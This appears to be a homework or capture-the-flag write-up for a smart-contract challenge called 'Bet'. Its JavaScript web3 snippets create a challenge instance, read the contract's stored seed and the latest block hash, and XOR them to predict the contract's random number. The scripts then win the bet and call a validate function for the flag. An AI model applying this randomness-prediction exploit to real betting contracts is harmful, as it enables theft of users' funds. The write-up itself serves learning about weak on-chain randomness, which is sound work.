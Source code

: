 # Hw03

## Bet

First, we create a instance of bet from server.<br>

```js
async function main() {
    ...
    let factory_addr = '0x8e0a809B1f413deB6427535cC53383954DBF8329'
    let factory = lib.contract(factory_addr, JSON.parse(fs.readFileSync('BetFactory.abi')))

    let instance_address = await factory.view('instances', lib.account.address)

    if (instance_address === '0x0000000000000000000000000000000000000000') {
        await factory.call({value: web3.utils.toWei('0.6', 'ether')}, 'create')
        instance_address = await factory.view('instances', lib.account.address)
    }
    console.log(`instance = ${instance_address}`)
    ...
}
```
![](getInstance.png)

<br><br><br>

Next, we use web3 library, getting the seed, blocknumber and blockhash, and we xor seed and b2, which is `getRandom ()` doing in the contract.<br>

```js
async function main() {
    ...
    let seed = await web3.eth.getStorageAt(instance_address, 1)
    let bn = await web3.eth.getBlockNumber()
    let b2 = (await web3.eth.getBlock(bn))['hash']
    rand = web3.utils.toBN(seed).xor(web3.utils.toBN(b2))
    console.log(rand)
    ...
}
```

<br><br><br>

After we get the random number, we send it to our instance and get money.<br>

```js
async function main() {
    ...
    instance = lib.contract(instance_address, JSON.parse(fs.readFileSync('Bet.abi')))
    await instance.call({value: web3.utils.toWei('0.00000001', 'ether')}, 'bet', rand)
}
```

<br><br><br>


Finally, we validate balance server, and get flag! <br>

```js
async function main() {
    let factory_addr = '0x8e0a809B1f413deB6427535cC53383954DBF8329'
    let factory = lib.contract(factory_addr, JSON.parse(fs.readFileSync('BetFactory.abi')))

    let token = '0xafdd757a8ad0241dcb6f307861e19d29ca2f701d3907551dc289b49b3fbce88f'
    await factory.call('validate', token)
}
```

![](validate.png)